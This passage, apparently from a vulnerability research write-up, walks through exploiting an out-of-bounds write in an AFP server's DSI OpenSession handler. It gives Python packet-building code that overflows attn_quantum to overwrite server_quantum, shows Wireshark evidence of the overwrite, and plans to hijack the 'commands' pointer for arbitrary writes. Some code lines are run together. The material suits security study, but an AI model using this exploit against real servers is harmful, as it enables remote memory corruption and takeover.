```
dsi_payload = "\x01" # Server Request Quantum  
dsi_payload += "\x04" # Option Size  
dsi_payload += "\x00\x00\x40\x00" # Client Quantumdsi_packet = "\x00" # Request flag  
dsi_packet += "\x04" # DSIOpenSession command  
dsi_packet += "\x41\x41" # Request ID  
dsi_packet += "\x00\x00\x00\x00" # Error code, not set by client  
dsi_packet += struct.pack(">I", len(dsi_payload)) # Length of payload  
dsi_packet += "\x00\x00\x00\x00" # Reserved for future usedsi_packet += dsi_payload
```
Let’s send this request to the server and see what it looks like in wireshark.

![](/images/1_YtbQkPKn-tHmO3CSO8DW0Q.png)

We can see the values we discussed earlier set by expanding the DSI section of the request packet:

![](/images/1_6vzL6dIFpdcHrXVlxWZfdw.png)

The corresponding reply packet indicates that our request was formatted properly:

![](/images/1_IJglQY7IqQyENO9pl5XSeA.png)

We can also see that the reply packet responds with a different Open Session option ‘Server Quantum’. If we remember correctly, **server_quantum** was one of the fields defined after **attn_quantum** that we are able to overwrite. That means we can validate this vulnerability by overwriting the **server_quantum** variable and having our overwritten value reflected back. To do this we need to provide 8 additional bytes to our Open Session Option data, as well as increase the Option Length field to accommodate for the additional data. The first 4 additional bytes will overwrite the **datasize** variable and the next 4 bytes will overwrite the **server_quantum** variable. We can set datasize to 0x00000000 since we do not care about this value, but we will set **server_quantum** to 0xdeadbeef as that is an easily recognizable value. Our new packet will look as follows:

```
dsi_payload = "\x01" # Server Request Quantum  
dsi_payload += "\x0c" # Option Size**  
dsi_payload += "\x00\x00\x40\x00" # Client Quantum  
dsi_payload += "\x00\x00\x00\x00" # overwrite datasize  
dsi_payload += "\xef\xbe\xad\xde" # overwrite the server quantum**dsi_packet = "\x00" # Request flag  
dsi_packet += "\x04" # DSIOpenSession command  
dsi_packet += "\x41\x41" # Request ID  
dsi_packet += "\x00\x00\x00\x00" # Error code, not set by client  
dsi_packet += struct.pack(">I", len(dsi_payload)) # Length of payload  
dsi_packet += "\x00\x00\x00\x00" # Reserved for future use
```
Looking at the hex output of the DSI Open Session reply we can see that we were able to successfully overwrite the **server_quantum** variable and that value was reflected back to us.

![](/images/1_Pg6Sf5liuC_RAhp8DtVylQ.png)

Now that we know we are able to successfully write past the bounds of the **attn_quantum** variable, the next step is to determine what exactly we want to overwrite and how to use it to our advantage. After reviewing the source code, the most obvious variable to overwrite is the **commands** pointer, which the source comments indicate is used as the DSI receive buffer. The reason this is a good candidate for a a variable to overwrite is that **commands** is the variable that all DSI command options and AFP commands are written to (we saw this earlier when reviewing the source code for handling the DSI OpenSession request), which means that after we overwrite the commands pointer, we will be able to use subsequent requests to write into the memory address that commands was overwritten with.
